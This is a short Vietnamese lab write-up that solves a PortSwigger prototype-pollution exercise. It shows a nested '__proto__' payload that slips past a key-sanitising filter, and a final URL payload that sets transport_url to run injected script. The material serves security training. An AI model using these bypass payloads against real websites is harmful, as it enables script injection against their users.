 ```yaml
---
title: Client-side prototype pollution via flawed sanitization
date: 2023-04-19 12:13:13 +0700
categories: [Websec, PortSwigger, Prototype Pollution]
tags: [serverside, prototype_pollution]    # TAG names should always be lowercase
---
```


1. Nhận thấy trong resource, ở searchLoggerFiltered.js có hàm `sanitizeKey()` sẽ filter các key như `__proto__`, `constructor`, `prototype`
![image](https://user-images.githubusercontent.com/80744099/231054720-4286a5f6-c8c9-4c88-8b78-2316281cccf0.png)
2. Bypass filter bằng payload 
- ```?__pro__proto__to__[testKey]=testValue```
![image](https://user-images.githubusercontent.com/80744099/231054812-7c5a2a99-da82-4363-9c2e-e310e7090e4d.png)
3. Detect sink 
```
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
```
4. Chèn payload ``?__pro__proto__to__[transport_url]=data:,alert(1)//``
![image](https://user-images.githubusercontent.com/80744099/231056568-4285182b-03c9-4833-b0d4-03f02839ed8e.png)